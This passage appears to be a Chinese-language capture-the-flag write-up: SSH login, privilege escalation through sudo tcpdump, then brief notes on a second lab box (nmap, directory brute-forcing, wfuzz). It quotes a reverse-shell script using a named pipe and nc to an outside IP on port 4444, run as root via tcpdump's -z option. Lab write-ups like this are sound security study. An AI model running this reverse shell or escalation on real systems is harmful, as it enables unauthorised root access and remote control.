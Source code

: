 ssh登录一下

![image.png](https://s2.loli.net/2025/04/25/8ofPlNHFrmRAiZ7.png)

有个tcpdump

## tcpdump提权

![image.png](https://s2.loli.net/2025/04/25/6oJRnjeuqKaEhIi.png)

id就是我们需要执行的命令 本来是想反弹shell的 但试了很多个都没用 只能找flag

![image.png](https://s2.loli.net/2025/04/25/oPA34rmY9GwWOpH.png)


看了大佬的wp是这样的

```
echo 'mknod backpipe p && nc 61.139.2.153 4444 0<backpipe | /bin/bash 1>backpipe' > priv.sh

chmod +x priv.sh 

sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/priv.sh -Z root

```

![image.png](https://s2.loli.net/2025/04/25/hvb1TqOUoDAW4XC.png)

![image.png](https://s2.loli.net/2025/04/25/LAqawkn3PyTGDIY.png)

成功提权

# prime
{ #53b3a2}


## nmap扫描端口

## 字典爆破 
这一步是很草率了 在使用完字典之后应该进行一个过滤 过滤特定的后缀 如.txt .php .html

加上这一步能找到secret.txt

![image.png](https://s2.loli.net/2025/04/29/rxELcia5lyg6fsZ.png)

txt告诉我们还要找到location.txt 应该是

## wuff
[[tips和一些工具/linux工具#wfuff\|linux工具#wfuff]]
这个确实没接触过 不了解流程
